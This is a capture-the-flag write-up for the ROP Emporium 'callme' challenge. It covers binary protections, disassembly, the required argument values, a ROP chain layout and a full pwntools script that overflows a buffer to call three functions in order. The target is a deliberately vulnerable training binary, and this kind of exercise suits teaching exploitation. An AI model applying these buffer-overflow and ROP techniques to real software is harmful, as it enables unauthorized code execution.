 # callme(ROP Emporium 3)

## info

### checksec
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
Stripped:   No
```

### usefulFuntion: 0x4008f2
```asm
00000000004008f2 <usefulFunction>:
  4008f2:	55                   	push   rbp
  4008f3:	48 89 e5             	mov    rbp,rsp
  4008f6:	ba 06 00 00 00       	mov    edx,0x6
  4008fb:	be 05 00 00 00       	mov    esi,0x5
  400900:	bf 04 00 00 00       	mov    edi,0x4
  400905:	e8 e6 fd ff ff       	call   4006f0 <callme_three@plt>
  40090a:	ba 06 00 00 00       	mov    edx,0x6
  40090f:	be 05 00 00 00       	mov    esi,0x5
  400914:	bf 04 00 00 00       	mov    edi,0x4
  400919:	e8 22 fe ff ff       	call   400740 <callme_two@plt>
  40091e:	ba 06 00 00 00       	mov    edx,0x6
  400923:	be 05 00 00 00       	mov    esi,0x5
  400928:	bf 04 00 00 00       	mov    edi,0x4
  40092d:	e8 ee fd ff ff       	call   400720 <callme_one@plt>
  400932:	bf 01 00 00 00       	mov    edi,0x1
  400937:	e8 14 fe ff ff       	call   400750 <exit@plt>
```

### callme_one, two, three
need 3 arguments: `rdi`, `rsi`, `rdx`
```asm
 82e:	48 b8 ef be ad de ef 	movabs rax,0xdeadbeefdeadbeef
 835:	be ad de 
 838:	48 39 45 e8          	cmp    QWORD PTR [rbp-0x18],rax
 83c:	0f 85 d0 00 00 00    	jne    912 <callme_one+0xf8>
 842:	48 b8 be ba fe ca be 	movabs rax,0xcafebabecafebabe
 849:	ba fe ca 
 84c:	48 39 45 e0          	cmp    QWORD PTR [rbp-0x20],rax
 850:	0f 85 bc 00 00 00    	jne    912 <callme_one+0xf8>
 856:	48 b8 0d f0 0d d0 0d 	movabs rax,0xd00df00dd00df00d
 85d:	f0 0d d0 
 860:	48 39 45 d8          	cmp    QWORD PTR [rbp-0x28],rax
 864:	0f 85 a8 00 00 00    	jne    912 <callme_one+0xf8>
```
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d

### callme_one
```c
FILE f = fopen("encrypted_flag.dat", "r");
if (f == NULL) {
    exit(1);
}

char *g_buf = malloc(0x21);
char *ret = fgets(g_buf, 0x21, f);
fclose(f);
puts("callme_one() called correctly");
```

### callme_two
```c
FILE f = fopen("key1.dat", "r");
if (f == NULL) {
    exit(1);
}

for (int i = 0; i < 0x10; i++) {
    int ch = fgetc(f);
}

fclose(f);
puts("callme_one() called correctly");
```

need: callme_one -> callme_two -> callme_three

## Solution
call functions by plt

### strategy
1. call `usefulGadget` with 3 arguments
2. call `callme_one@plt`, `callme_two@plt`, `callme_three@plt`

ROP chain:
- pop rdi, rsi, rdx; ret: 0x40093c
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_one@plt: 0x400720
- pop rdi, rsi, rdx; ret
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_two@plt: 0x400740
- pop rdi, rsi, rdx; ret
- rdi: 0xdeadbeefdeadbeef
- rsi: 0xcafebabecafebabe
- rdx: 0xd00df00dd00df00d
- callme_three@plt: 0x4006f0

## Script
```python
from pwn import *

conn = process('./callme')

payload = b'A' * 0x28
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400720)
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x400740)
payload += p64(0x40093c) 
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += p64(0x4006f0)

conn.sendlineafter('> ', payload)
conn.interactive()
```